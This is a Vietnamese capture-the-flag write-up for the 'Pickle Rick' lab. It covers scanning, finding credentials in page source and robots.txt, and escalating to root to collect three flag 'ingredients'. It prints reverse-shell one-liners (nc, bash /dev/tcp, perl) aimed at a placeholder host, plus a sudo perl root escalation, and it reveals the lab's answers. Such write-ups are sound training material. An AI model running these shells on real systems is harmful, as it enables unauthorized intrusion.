 Pickle Rick
===

---
## Mục lục <a name="menu"></a>

* [Mục lục](#menu)
* [Thu thập thông tin](#info)
* [Xác định lỗ hổng bảo mật](#vuln)
* [Tiến hành xâm nhập](#exploit)
* [Kết quả](#result)

---
## Thu thập thông tin <a name="info"></a>

Đầu tiên, mình tiến hành scan tổng quan 1000 port tcp, udp đầu, kết quả như sau:

![](https://i.imgur.com/ocJcJhw.png)

![](https://i.imgur.com/9QS3tsU.png)


Tất cả các port UDP đều đã bị filtered, TCP có 2 port đang mở:
* Port-22: OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (SSH)
* Port-80: Apache httpd 2.4.18 (HTTP)

Tiếp theo, mình tiến hành truy cập vào http://10.10.145.37:80 , xem qua front và source code thì mình tìm được username do admin để lại để ghi nhớ:

![](https://i.imgur.com/5o4bsMd.png)

> Username: R1ckRul3s

Giờ ta cần tìm password và 1 cổng đăng nhập để có thể tiến hành lấy shell và nâng câp quyền. Mình sẽ dùng gobuster để crawl trang tìm chỗ đăng nhập:

![](https://i.imgur.com/P1EHeIs.png)

Sau 1 lúc, mình crawl ra được trang login và phát hiện 1 chuỗi kí tự như password ở file robots.txt:

![](https://i.imgur.com/NjQkKWA.png)

> Password: Wubbalubbadubdub

![](https://i.imgur.com/cOZOwS8.png)

Thử dùng username với password tìm được để đăng nhập vào cổng thì thành công và vào được 1 command panel (shell cơ bản):

![](https://i.imgur.com/SCqXWh9.png)

Xem như các thông tin cần thiết đã có đủ, mình sẽ tiến tới xác định lỗ hổng và exploit.

---
## Xác định lỗ hổng bảo mật <a name="vuln"></a>

Nhập thử vài câu lệnh shell cơ bản vào cái command panel, mình thấy shell này rất hạn chế, nó không cho mình cd đi chỗ khác:

![](https://i.imgur.com/ycfuea6.png)

Phải tìm cách khác để có được shell mạnh hơn. Mình sẽ thử kiểm tra xem server có dùng python, bash, nc, ruby hay perl không:

``` 
which bash; which nc; which python; which perl; which ruby
```

![](https://i.imgur.com/NkuVCsB.png)

Kết quả cho thấy server có dùng bash, perl và nc. Do đó, mình sẽ tiến hành xâm nhập bằng cách tạo kết nối ngược từ server về máy mình(reverse shell) và sau đó tìm cách lấy quyền root.

---
## Tiến hành xâm nhập <a name="exploit"></a>

Trước khi dùng reverse shell, máy chúng ta phải lắng nghe connection tại 1 port bất kì trước đã (port > 1000), mình sẽ dùng nc để lắng nghe ở port 8089, câu lệnh như sau:

```
nc -vnlp 8089 
```

Sau đó, mình lần lượt thử các reverse shell nc, bash, perl:

```
* nc -e /bin/sh 10.0.0.1 1234
* bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
* perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

*(Nguồn: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)*
*(lưu ý: thay đổi ip và port phù hợp)*

Trong 3 cái chỉ có perl là có tác dụng và tạo được kết nối ngược từ server về máy mình, cho mình quyền user cơ bản 'www-data' : 

![](https://i.imgur.com/jBjR6f6.png)

Tới đây, mình sẽ nâng cấp quyền quản trị lên thành root để tiện hơn vì user hiện tại có shell rất hạn chế, câu lệnh sử dụng như sau: 

```
sudo perl -e 'exec "/bin/sh";'
```

*(Nguồn: https://gtfobins.github.io/gtfobins/perl/#sudo)*

Mình đã thành công lấy được quyền root:

![](https://i.imgur.com/WQeiHOY.png)

Cuối cùng, chỉ việc look around files system để tìm ra các ingredients.

---
## Kết quả <a name="result"></a>

First ingredients: var/www/html/Sup3rS3cretPickl3Ingred.txt

```
mr. meeseek hair
```

Second ingredients: /home/rick/second ingredients

```
> 1 jerry tear
```

Final ingredients: /root/3rd.txt

```
> fleeb juice
```
